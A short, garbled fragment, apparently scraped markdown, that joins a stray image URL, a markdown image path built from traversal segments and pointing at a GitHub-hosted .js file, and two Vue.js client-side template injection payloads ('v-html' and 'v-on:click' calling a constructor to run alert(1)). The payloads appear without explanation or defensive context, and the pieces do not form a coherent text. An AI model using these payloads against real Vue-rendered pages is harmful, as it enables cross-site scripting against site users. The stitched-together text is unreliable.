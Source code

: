 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<x v-html=_c.constructor('alert(1)')()>
  <x v-on:click='_b.constructor`alert(1)`()'>click</x>
